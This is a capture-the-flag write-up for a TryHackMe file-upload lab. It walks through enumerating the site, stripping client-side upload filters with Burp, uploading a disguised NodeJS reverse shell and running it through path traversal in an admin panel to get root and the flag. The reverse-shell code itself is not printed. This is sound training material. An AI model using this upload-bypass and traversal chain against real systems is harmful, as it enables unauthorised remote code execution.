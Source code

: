 ==Upload Vulns Challenge   Flutter Aug 13 2021===


## Enumeration ##

--------------------------------------
	Visiting jewel.uploadvulns.thm
--------------------------------------

- wappalyzer

'''
Web Frameworks: Express

Programming Languages: Node.js

Web Servers: Express, Nginx 1.17.6

JS Libraries: jQuery 3.5.1

Reverse Proxies: Nginx 1.17.6
'''


- curl http://jewel.uploadvulns.thm/ > target_sourcecode

'''
<!DOCTYPE html>
<html>
	<head>
		<title>Jewel</title>
		<meta charset="utf-8">
		<meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
		<link type="text/css" rel="stylesheet" href="assets/css/style.css">
		<link type="text/css" rel="stylesheet" href="assets/css/cinzel.css">
		<link type="text/css" rel="stylesheet" href="assets/css/exo.css">
		<link type="text/css" rel="stylesheet" href="assets/css/icons.css">
		<link type="image/x-icon" rel="shortcut icon" href="assets/favicon.ico">
		<script src="assets/js/jquery-3.5.1.min.js"></script>
		<script src="assets/js/jquery.colour-2.2.0.min.js"></script>
		<script src="assets/js/upload.js"></script>
		<script src="assets/js/backgrounds.js"></script>
	</head>
	<body>
		<div id="one" class="background"></div>
		<div id="two" class="background" style="display:none;"></div>
		<div id="three" class="background" style="display:none;"></div>
		<div id="four" class="background" style="display:none;"></div>
		<main>
			<object ondragstart="return false;" ondrop="return false;" id="title" data="/assets/title.svg" type="image/svg+xml"></object>
			<p>Have you got a nice image of a gem or a jewel?<br>Upload it here and we'll add it to the slides!</p>
			<button class="Btn" id="uploadBtn"><i id="uploadIcon" class="material-icons">backup</i> Select and Upload</button>
			<input id="fileSelect" type="file" name="fileToUpload" accept="image/jpeg">
		</main>
		<p id="responseMsg" style="display:none;"></p>
	</body>
</html>		
'''

Line 7-15
	'''
	<link type="text/css" rel="stylesheet" href="assets/css/style.css">
	<link type="text/css" rel="stylesheet" href="assets/css/cinzel.css">
	<link type="text/css" rel="stylesheet" href="assets/css/exo.css">
	<link type="text/css" rel="stylesheet" href="assets/css/icons.css">
	<link type="image/x-icon" rel="shortcut icon" href="assets/favicon.ico">
	<script src="assets/js/jquery-3.5.1.min.js"></script>
	<script src="assets/js/jquery.colour-2.2.0.min.js"></script>
	<script src="assets/js/upload.js"></script>
	<script src="assets/js/backgrounds.js"></script>
	'''
		sourced CSS and JS from directory "assets/"

Line 14
	'''
	<script src="assets/js/upload.js"></script>
	'''
		let's check that out

/assets/js/upload.js 
	'''
	$(document).ready(function(){let errorTimeout;const fadeSpeed=1000;function setResponseMsg(responseTxt,colour){$("#responseMsg").text(responseTxt);if(!$("#responseMsg").is(":visible")){$("#responseMsg").css({"color":colour}).fadeIn(fadeSpeed)}else{$("#responseMsg").animate({color:colour},fadeSpeed)}clearTimeout(errorTimeout);errorTimeout=setTimeout(()=>{$("#responseMsg").fadeOut(fadeSpeed)},5000)}$("#uploadBtn").click(function(){$("#fileSelect").click()});$("#fileSelect").change(function(){const fileBox=document.getElementById("fileSelect").files[0];const reader=new FileReader();reader.readAsDataURL(fileBox);reader.onload=function(event){

		//Check File Size
		if (event.target.result.length > 50 * 8 * 1024){
			setResponseMsg("File too big", "red");			
			return;
		}
		//Check Magic Number
		if (atob(event.target.result.split(",")[1]).slice(0,3) != "ÿØÿ"){
			setResponseMsg("Invalid file format", "red");
			return;	
		}
		//Check File Extension
		const extension = fileBox.name.split(".")[1].toLowerCase();
		if (extension != "jpg" && extension != "jpeg"){
			setResponseMsg("Invalid file format", "red");
			return;
		}


	const text={success:"File successfully uploaded",failure:"No file selected",invalid:"Invalid file type"};$.ajax("/",{data:JSON.stringify({name:fileBox.name,type:fileBox.type,file:event.target.result}),contentType:"application/json",type:"POST",success:function(data){let colour="";switch(data){case "success":colour="green";break;case "failure":case "invalid":colour="red";break}setResponseMsg(text[data],colour)}})}})});
	'''
		Client side filters!
		Will remove later with Burp 

Line 26
	'''
	<input id="fileSelect" type="file" name="fileToUpload" accept="image/jpeg">
	'''
		Client-Side filtering for MIME type "image/jpeg"


- Checking dev tools on site finds the background images are sourced from directory /content 
	may be where our uploads go


- gobuster dir -u http://jewel.uploadvulns.thm/ -w directory-list-2.3-medium.txt -o gobuster_jewel

'''
/content (Status: 301)
/modules (Status: 301)
/admin (Status: 200)
/assets (Status: 301)
/Content (Status: 301)
/Assets (Status: 301)
/Modules (Status: 301)
/Admin (Status: 200)
'''

301 redirects are 404 errors

/admin panel

'''
Admin Page

As a reminder: use this form to activate modules from the /modules directory.

Enter filename to execute
'''
	seems to be a page to execute files on the server located under /modules



------------
	Burp
------------

- Intercepting requests and responses

Intercept of /assets/js/upload.js to remove client-side filters

'''
//Check File Size
	if (event.target.result.length > 50 * 8 * 1024){
		setResponseMsg("File too big", "red");			
		return;
	}
//Check Magic Number
	if (atob(event.target.result.split(",")[1]).slice(0,3) != "ÿØÿ"){
		setResponseMsg("Invalid file format", "red");
		return;	
	}
//Check File Extension
	const extension = fileBox.name.split(".")[1].toLowerCase();
	if (extension != "jpg" && extension != "jpeg"){
		setResponseMsg("Invalid file format", "red");
		return;
	}
'''


Uploading reverse shell for NodeJS from PayloadsAllTheThings
	renamed it "cat.jpg"
	Success!
Going to http://jewel.uploadvulns.thm/content/cat.jpg
	hm nothing, maybe they alter the file names

- gobuster dir -u http://jewel.uploadvulns.thm/content -w UploadVulnsWordlist -x jpg

'''
/ABH.jpg (Status: 200)
/LKQ.jpg (Status: 200)
/OXW.jpg (Status: 200)
/QOY.jpg (Status: 200)
/SAD.jpg (Status: 200)
/UAD.jpg (Status: 200)
'''

QOY.jpg returns "contains errors", this is our shell, but it didn't run?

If /admin panel runs modules from the /modules dir, what if we try to move out of the /modules dir


- Starting nc listener
- executing ../content/QOY.jpg
	Success!

## RCE ##

whoami
	'root'
id
	'uid=0(root) gid=0(root) groups=0(root)'

cat /var/www/flag.txt returned flag
	THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}